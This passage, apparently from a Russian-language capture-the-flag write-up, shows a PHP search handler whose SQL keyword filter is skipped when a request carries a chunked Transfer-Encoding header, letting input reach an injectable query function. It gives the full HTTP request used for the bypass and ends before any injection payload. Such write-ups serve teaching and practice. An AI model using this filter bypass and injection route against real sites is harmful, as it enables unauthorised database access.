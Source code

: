 ```php
        }
    }
    return true;
}

?>
```

Цикл foreach ищет любые ключевые слова SQL во входных данных поиска и очищает их. Выглядит очень ограничительным WAF.

Но как нам обойти этот WAF и добраться до функции unsafequery?

Анализируя **SearchHandler.php,** мы увидим этот оператор if.

```php
if (isset($_SERVER["HTTP_TRANSFER_ENCODING"]) && $_SERVER["HTTP_TRANSFER_ENCODING"] == "chunked")
{
    $search = $_POST['search'];

    $result = unsafequery($pdo, $search);

    if ($result)
    {
        echo "<div class='results'>No post id found.</div>";
    }
    else
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }

}
```

Этот оператор if ищет заголовок Transfer-Encoding с фрагментированным значением (нет, он не имеет ничего общего с контрабандой HTTP-запросов).

Если мы включим заголовок Transfer-Encoding: Chunked в наш запрос, мы достигнем функции unsafequery и внедрим некоторый SQL.

**Давайте возьмем флаг**

Запрос, который я использовал:

```
POST /Controllers/Handlers/SearchHandler.php HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 8
Origin: http://host/
Connection: close
Referer: http://host/
Transfer-Encoding: chunked

search=1
```
